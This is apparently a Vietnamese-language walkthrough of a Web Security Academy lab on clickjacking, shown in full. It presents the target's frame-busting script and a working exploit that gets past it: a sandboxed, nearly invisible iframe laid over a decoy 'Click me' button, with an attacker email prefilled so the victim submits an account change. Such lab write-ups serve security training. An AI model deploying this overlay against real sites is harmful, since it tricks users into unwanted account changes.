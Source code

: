 # Clickjacking with a frame buster script

Chức năng thay đổi email vẫn là một form đơn giản như các challenge trước nhưng lần này đã có biện pháp bảo vệ 

```html
<p>Your username is: wiener</p>
<p>Your email is: wiener@normal-user.net</p>
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
<label>Email</label>
<input required type="email" name="email" value="">
<script>
    if(top != self) {
    window.addEventListener("DOMContentLoaded", function() {
    document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
</script>
<input required type="hidden" name="csrf" value="bDdr2OiVchDzxn9zbAULDJ5WObwd9XnP">
<button class='button' type='submit'> Update email </button>
</form>
```

Đoạn mã này sẽ kiểm tra cửa sổ chính của nó và cửa sổ trên cùng xem có giống nhau không, nếu giống thì nó sẽ thay thế toàn bo nội dung của trang bằng một tin nhắn văn bản `This page cannot be framed`

![image](https://user-images.githubusercontent.com/68894302/175192668-b29cc142-90d3-485a-90be-e537c07b8c5f.png)

Vì thế cần một cách để ngăn tập lệnh từ trang bị đóng khung không chạy được hoặc không thể truy cập vào ngữ cảnh trình duyệt. Search google thấy có một số tip trên [stackoverflow](https://stackoverflow.com/questions/369498/how-to-prevent-iframe-from-redirecting-top-level-window) và [w3schools](https://www.w3schools.com/tags/att_iframe_sandbox.asp)

Trên tài liệu iframe sandbox, các giá trị có thể có của thuộc tính sandbox được liệt kê:

![image](https://user-images.githubusercontent.com/68894302/175193376-1d38615f-e66e-452a-9ad7-d44cfe2200a3.png)

Khi muốn người dùng thay đổi email chúng ta cần cấp quyền `allow-forms` 

## Craft script html

``` html
<style>
    #vuln_site{
        position:relative;
        width:1000px;
        height:800px;
        opacity:0.1;
        z-index:2;
    }
    #evil_site{
        position:absolute;
        top:470px;
        left:60px;
        z-index:1;
    }
</style>
<div id="evil_site">Click me</div>
<iframe sandbox="allow-forms" id="vuln_site" src="https://0a8100cb032d2fcec00741f200320042.web-security-academy.net/my-account/?email=hacker@net">
</iframe>
```

![image](https://user-images.githubusercontent.com/68894302/175193983-ad07e339-90b1-43ac-8051-3d93380ac115.png)

Sửa lai độ mờ opacity xuống 0.000001 và delivery exploit -> solved

![image](https://user-images.githubusercontent.com/68894302/175194223-289225bb-d1d9-4913-9b65-006ad06a510a.png)